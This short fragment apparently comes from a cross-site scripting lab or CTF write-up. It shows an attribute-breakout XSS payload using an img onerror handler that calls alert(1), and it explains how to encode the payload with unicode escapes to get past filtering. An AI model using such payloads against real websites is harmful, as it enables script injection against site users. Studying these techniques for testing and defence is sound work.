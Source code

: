 For this payload "><img src=x onerror=alert(1)><x y=" we have to replace " with \u0022, > with \u003e and < with \u003c. So the payload will be \u0022\u003e\u003cimg src=x onerror=alert(1)\u003e\u003cx y=\u0022
